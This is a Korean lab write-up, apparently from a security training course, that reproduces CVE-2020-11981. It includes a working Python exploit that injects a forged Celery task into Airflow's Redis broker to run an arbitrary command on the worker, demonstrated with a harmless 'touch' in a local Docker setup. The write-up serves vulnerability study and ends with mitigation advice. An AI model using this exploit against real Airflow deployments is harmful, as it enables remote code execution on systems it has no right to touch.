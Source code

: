 # Apache Airflow Celery Broker Remote Command Execution (CVE-2020-11981)

> 화이트햇 스쿨 3기 (20반) - 금도혁
> 

### 요약

- Apache Airflow는 오픈 소스 분산 작업 스케줄링 프레임워크이다.
- 1.10.10 이전 버전에서 Redis 브로커(예: Redis 또는 RabbitMQ)가 공격자에 의해 제어되면, 공격자는 워커 프로세스에서 임의의 명령을 실행할 수 있다.

### 환경 구성 및 실행

- `docker compose run airflow-init` 로 Apache Airflow의 데이터베이스를 초기화
- `docker compose up -d` 를 실행하여 테스트 환경을 실행
- `pip install redis` 로 필요한 라이브러리 설치
- 아래와 같이 `python exploit_airflow_celery.py` 작성

```c
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch', '/tmp/airflow_celery_success']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))

```

- `python3 exploit_airflow_celery.py 127.0.0.1` 로 `touch /tmp/airflow_celery_success` 실행되도록 함

### 결과

- `docker compose logs airflow-worker` 로  `touch /tmp/airflow_celery_success` 가 실행됐다는 로그 를 확인할 수 있다.

![{4DC3CB43-17D2-4C1F-9F1D-7DB60F296680}.png](1.png)

- `docker compose exec airflow-worker ls -l /tmp` 로 `/tmp` 에 `airflow_celery_success` 가 실제로 생성되었음을 확인할 수 있다.

![{A4718C66-7EE5-4436-B461-3AF12EC412DB}.png](2.png)

### 정리

이 취약점은 공격자가 Redis 브로커를 악용해 Apache Airflow의 워커 프로세스에서 임의의 명령을 실행할 수 있게 만든다. 이를 통해 시스템의 권한 상승이나 악성 코드 실행이 가능해져, 실제 운영 환경에선 큰 위험이 될 수 있다. 이런 문제를 예방하려면, 브로커 서버를 안전하게 설정하고, 관련 패치가 나오면 즉시 적용하는 게 중요하다.